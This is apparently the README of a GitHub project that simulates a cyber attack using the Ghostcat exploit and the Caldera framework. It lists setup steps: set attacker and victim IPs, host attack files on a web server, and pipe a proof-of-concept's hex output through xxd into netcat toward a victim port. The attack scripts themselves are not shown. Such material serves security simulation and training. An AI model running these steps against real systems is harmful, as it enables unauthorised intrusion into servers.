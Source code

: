 # Cyber Attack Simulation by Ghostcat and Caldera

**1. Clone the repository** 

```bash
git clone https://github.com/jason61306/Cyber-Attack-Simulation-by-Ghostcat-and-Caldera.git
```

**2. Modify attack_sh.txt**

modify $AttackerIP


**3. Upload attack_sh.txt and attack.txt to web** 

![alt text]([http://url/to/img.png](https://github.com/jason61306/Cyber-Attack-Simulation-by-Ghostcat-and-Caldera/blob/main/img/img.png?raw=true))

**4. Modify attack.py** 

modify $VictimIP

**5. Run attack.py** 

```
$Python3 poc.py | xxd -r -p | nc $VictimIP 9009
```

